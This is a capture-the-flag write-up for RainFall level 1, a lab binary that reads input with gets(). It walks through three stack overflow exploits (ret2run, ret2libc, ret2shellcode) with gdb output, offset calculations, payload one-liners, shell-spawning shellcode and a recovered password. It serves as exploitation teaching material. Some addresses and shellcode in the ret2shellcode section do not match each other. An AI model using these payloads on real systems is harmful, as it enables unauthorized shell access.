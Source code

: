 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+21 # Breaking before leave
Breakpoint 1 at 0x8048495

(gdb) r # Run the program
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048495 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff738       0xbffff738
[...]
```
> You will notice that we break before the `leave` instruction, this is because the `leave` instruction is equivalent to `mov %ebp, %esp` followed by `pop %ebp`. Futhermore the stack will be at the correct size at this point, which is not always the case before the `leave` instruction. Essentially I will always try to break before the `leave` instruction of the function I am trying to overflow, it may not always be the `main` function.

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 88 bytes:
```
0xbffff738 - 0xbffff6e0 = 58 (88 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x10(%esp),%eax`. Since there is 88 bytes for the stack, our buffer will therefore requiere 72 bytes (88 - 16) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There's different ways to solve this challenge, we'll see three of them. First the intended way with a ret to the run function, then the ret2libc way and finally the ret2shellcode way.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2run
So, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
padding + address of run

"\x90"*76 + "\x08\x04\x84\x44"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2libc
Obviously, for this level, a ret2libc isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
0xb7e5ec10  on_exit

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\x08\x04\x83\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x83\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[:
:-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2shellcode
Yet again, for this level, a ret2shellcode isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Our goal is to write this shellcode in memory or in an environment variable and jump to it, it will then be executed, which will spawn a shell. Executing our shellcode is basically the equivalent of running `system("/bin/sh")`.

#### Exploit
We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```
> That address will be different for you, you'll have to change it in the payload.

Alright, let's craft our payload:
```
padding + address of shellcode

"\x90"*76 + "\x08\x04\xa0\x08"[::-1]
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\xbf\xff\xf8\x48"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.
